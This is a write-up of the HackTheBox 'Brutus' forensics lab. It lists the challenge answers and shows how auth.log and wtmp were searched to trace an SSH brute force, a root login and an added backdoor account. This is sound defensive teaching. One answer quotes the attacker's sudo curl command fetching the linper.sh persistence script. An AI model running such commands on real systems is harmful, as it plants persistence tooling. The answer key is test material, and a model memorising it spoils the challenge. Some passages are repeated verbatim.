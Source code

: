 # [Brutus](https://app.hackthebox.com/sherlocks/Brutus) 

---

??? info "Answers"

    ??? note "Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?"
        65.2.161.68

    ??? note "The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?"
        root

    ??? note "Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact."
        2024-03-06 06:32:45

    ??? note "SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?"
        37

    ??? note "The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?"
        cyberjunkie

    ??? note "What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?"
        T1136.001

    ??? note "What time did the attacker's first SSH session end according to auth.log?"
        2024-03-06 06:37:24

    ??? note "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"
        /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
    
---


[Brutus Complete](https://labs.hackthebox.com/achievement/sherlock/2582863/631)

![Brutus Complete](../00-journal/Images/2025-09-06/brutuscomplete.png)

the zip files gives you 3 files, and auth.log, wtmp, and a python script for parsing the wtmp file.

So lets check these files. 

the "last" command prints previous logins that are logged in your /var/log/wtmp to the terminal but we can also specify a file with the -f flag.

the wtmp file records logins, logouts, reboots, and system runelvel changes.

It is important to note that my system time is in UTC format.


```
       Λ   ~/hackthebox/brutus   last -f ./wtmp
    cyberju* pts/1        65.2.161.68      Wed Mar  6 06:37    gone - no logout
    root     pts/1        65.2.161.68      Wed Mar  6 06:32 - 06:37  (00:04)
    root     pts/0        203.101.190.9    Wed Mar  6 06:19    gone - no logout
    reboot   system boot  6.2.0-1018-aws   Wed Mar  6 06:17   still running
    root     pts/1        203.101.190.9    Sun Feb 11 10:54 - 11:08  (00:13)
    root     pts/1        203.101.190.9    Sun Feb 11 10:41 - 10:41  (00:00)
    root     pts/0        203.101.190.9    Sun Feb 11 10:33 - 11:08  (00:34)
    root     pts/0        203.101.190.9    Thu Jan 25 11:15 - 12:34  (01:18)
    ubuntu   pts/0        203.101.190.9    Thu Jan 25 11:13 - 11:15  (00:01)
    reboot   system boot  6.2.0-1017-aws   Thu Jan 25 11:12 - 11:09 (16+23:57)

    wtmp begins Thu Jan 25 11:12:17 2024
```
So, without even reading the auth.log yet we can kind of guess that the answer to this one is going to be 65.2.161.68 because it's the only login from a different IP address, but that's not **evidence** of an attacker.

Typing ```less -S auth.log``` into the terminal will let us read the entire log, the -S flag make the text go off the screen instead of wrapping onto the next line.

That's nice for skimming through, but log files can get quite large so it would be easier if we could search through them for what we want.  That is where grep and awk come in.

```head``` is a command that shows you a specified number of lines from the top of a file.  for example ```head -5 auth.log``` will give me the first 5 lines of the auth.log.  Using ```head -1 auth.log``` I can print the first line of the file to get a peek at the syntax so I can awk it.

```
   Λ   ~/hackthebox/brutus   head -1 auth.log
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
   Λ   ~/hackthebox/brutus   awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c
      1 chfn
    104 CRON
      3 groupadd
      1 passwd
    257 sshd
      6 sudo
      2 systemd
      8 systemd-logind
      1 useradd
      2 usermod
   Λ   ~/hackthebox/brutus

```

Typing ```less -S auth.log``` into the terminal will let us read the entire log, the -S flag make the text go off the screen instead of wrapping onto the next line.

That's nice for skimming through, but log files can get quite large so it would be easier if we could search through them for what we want.  That is where grep and awk come in.

```head``` is a command that shows you a specified number of lines from the top of a file.  for example ```head -5 auth.log``` will give me the first 5 lines of the auth.log.  Using ```head -1 auth.log``` I can print the first line of the file to get a peek at the syntax so I can awk it.

    ```
       Λ   ~/hackthebox/brutus   head -1 auth.log
    Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
       Λ   ~/hackthebox/brutus   awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c
          1 chfn
        104 CRON
          3 groupadd
          1 passwd
        257 sshd
          6 sudo
          2 systemd
          8 systemd-logind
          1 useradd
          2 usermod
       Λ   ~/hackthebox/brutus

    ```
---    

```
head -1 auth.log
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
```



??? example "```awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c```"

     **`awk '{print $5}' auth.log`**

        * Splits each line by the spaces.
        * Prints the fifth field of this split.
        * For example, here are the fields on the first line:

            * `$1` = `Mar`
            * `$2` = `6`
            * `$3` = `06:18:01`
            * `$4` = `ip-172-31-35-28`
            * `$5` = `CRON[1119]:`

       So the output is things like `sshd[1234]:`, `CRON[1119]:`, `sudo:`, etc.

     **`sed 's/[\[\:].*//g'`**

           * A regex replace: “if you see a `[` or `:` and anything after it, delete it.”
           * That turns `CRON[1119]:` into `CRON`, `sshd[1234]:` into `sshd`, `sudo:` into `sudo`
           * Essentially, it strips PIDs and trailing colons, leaving just the program name.

     **`sort`**

        * Sorts the cleaned list alphabetically.
        * All the `CRON`s together, all the `sshd`s together, etc.

     **`uniq -c`**

        * Collapses consecutive identical lines (hence the need for `sort`).
        * Counts how many times each unique program name appeared.
        * The `-c` flag prefixes each with its count.

---

So now we can see some of the actions that are taking place in this log file; most relevant to us here being that there were 257 SSH attempts.  

Let's grep the log for SSH.
```grep sshd auth.log``` I can see many failed password SSH attempts from the IP address 65.2.161.68.  Evidence of a brute force *attempt* from that IP address, but let's dig a little further.  
If I pipe the output of that into grep again, I can begin to filter the log file down.

For example, with the -v use flag, I can have grep do the opposite of it's usual function, and instead omit entries from it's output.

```
   Λ   ~/hackthebox/brutus   grep sshd auth.log | grep -v pam_unix | grep -v Failed | grep -v preauth | grep -v Invalid
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:36 ip-172-31-35-28 sshd[2357]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=backup
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Received disconnect from 65.2.161.68 port 34782:11: Bye Bye
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Disconnected from user root 65.2.161.68 port 34782
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:31:42 ip-172-31-35-28 sshd[2409]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:32:39 ip-172-31-35-28 sshd[620]: exited MaxStartups throttling after 00:01:08, 21 connections dropped
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
   Λ   ~/hackthebox/brutus

```

Now we get a clearer picture of what has happened.  Combined with our knowledge that there have been 257 SSH attempts, and before adding ```grep -v Failed | grep -v preauth | grep -v Invalid``` you could see that each of those 257 are all from **65.2.161.68**.
